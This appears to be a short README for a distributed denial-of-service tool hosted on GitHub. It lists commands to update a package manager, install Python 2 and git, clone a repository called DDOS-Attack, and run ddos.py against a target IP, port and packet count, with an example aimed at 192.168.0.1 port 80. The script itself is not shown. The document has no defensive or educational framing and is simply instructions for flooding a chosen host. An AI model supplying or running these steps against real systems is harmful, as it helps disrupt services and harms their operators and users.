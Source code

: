 # Distributed Denial of Service - Attack
===============================================================================

$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ git clone https://github.com/Tn-BoyK07/DDOS-Attack

$ cd DDOS-Attack

$ python2 ddos.py <ip> <port> <packet>

[+] Ex: python2 ddos.py 192.168.0.1 80 1000

===============================================================================
